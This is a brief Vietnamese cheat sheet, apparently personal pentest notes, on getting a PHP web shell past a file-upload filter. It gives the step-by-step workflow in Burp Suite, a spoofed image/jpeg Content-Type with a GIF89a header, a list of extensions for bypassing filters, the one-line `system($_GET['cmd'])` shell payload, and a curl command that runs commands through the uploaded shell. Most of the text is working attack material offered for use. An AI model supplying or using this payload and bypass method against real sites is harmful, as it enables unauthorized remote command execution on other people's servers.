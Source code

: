 > [!important] **Upload Shell**

# Quy trình

Xác định upload ⇒ Burp Suite ⇒ Upload shell (trước đó nên gửi request POST là các định dạng không bị filter) ⇒ Quan sát respond ⇒ Bị filter thì đổi đuôi file ⇒

```Bash
curl "http://example.com/uploads/shell.phtml?cmd=id"
```

⇒ Thành công thì có thể ls, cat, cd, … (nhớ dùng Burp Suite để gửi respond theo chuẩn URL, không space)

---

# Chỉnh sửa request

```PHP
Content-Length: \#Để trống để Burp Suite tự gán
Content-Disposition: form-data; name = "input_image"; filename = "shell.phtml"
Content-Type: image/jpeg
```

```PHP
\#Nội dung payload
GIF89a \#Có thể có hoặc không
<?php system($_GET['cmd']); >
```

> **Các đuôi**: .pHp, .phar, .php5, .php7, .php.jpg, …